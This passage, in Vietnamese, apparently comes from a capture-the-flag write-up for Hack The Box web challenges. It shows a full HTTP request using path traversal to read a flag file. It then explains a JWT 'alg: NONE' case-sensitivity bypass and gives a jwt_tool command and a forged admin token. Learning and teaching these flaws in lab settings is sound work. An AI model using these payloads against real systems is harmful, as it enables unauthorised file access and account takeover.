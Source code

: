Ở đây send_file được sử dụng để trả một file từ server về, thêm việc `communicationName` là data mà ta kiểm soát nên ta có thể làm nó trả về một file tùy ý => Path traversal

```http!
POST /api/export HTTP/1.1
Host: 64.227.41.83:32154
Content-Length: 36
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: */*
Origin: http://64.227.41.83:32154
Referer: http://64.227.41.83:32154/home
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUlpd2laWGh3SWpveE5qYzVOVGd3TWpFd2ZRLk5GdUkybjkta1hVUWJQdTF6NC1BTTRCcDQzRWRuSmZnaFE2aHdhUE8ySWsifQ.ZBwH0g.-e4yJNL7-HvreEhBxlEwAavZsRY
Connection: close

{"name":"../signal_sleuth_firmware"}
```
Trong file docker thì flag.txt được đổi tên thành "signal_sleuth_firmware" tại root `/`
```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```
p/s: hình như intend bài này là timebased hay sao ấy :V

## Didactic Octo Paddles
#### Medium
Đến những bài này ta sẽ đi thẳng vào vấn đề luôn.

Trong các middleware được sử dụng cho các route thì endpoint `/admin` sẽ được sử dụng middleware riêng là `AdminMiddleware`, ở đây chứa logic sử dụng JWT 

Đầu tiên JWT sẽ được decode ra thành object, rồi sau đó đưa vào if else để check thuật toán alg được sử dụng

Để ý phần check `decoded.header.alg == 'none'`, ở đây code đang không muốn ta sử dụng thuật toán `none`, do nếu sử dụng thuật toán này thì khi verify sẽ luôn trả về đúng. Tuy nhiên header `alg` của JWT không chỉ chấp nhận giá trị `none` mà còn chấp nhận các giá trị như `NONE`, `None`, `NoNe`. Việc chỉ so với chuỗi `none` là chưa đủ, dẫn đến ta có thể chỉnh JWT, đổi alg thành `NONE` và sử `id` thành 1

Vì sao lại là 1, là vì ở đây JWT sẽ sign giá trị `id` là dùng nó để xác định user, nhìn trong file `database.js` sẽ thấy giá trị `id` của `Users` được gán `autoIncrement: true` nghĩa là tự tăng dần, bên dưới tại `Database.create` sẽ tạo user `admin`. Vậy suy ra user đầu tiên là `admin` nên sẽ mang giá trị `id` là 1 

Tại đây có thể dùng JWT_tool: `python jwt_tool.py -X a eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5NTYzODU4LCJleHAiOjE2Nzk1Njc0NTh9.RAhPvgjaaLxt7gwrsOsfclGX7RKWfzOZL8g2ZMlXA6Y`

Craft JWT ta được:
```
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5NTYwOTYwLCJleHAiOjE2Nzk1NjQ1NjB9.
```
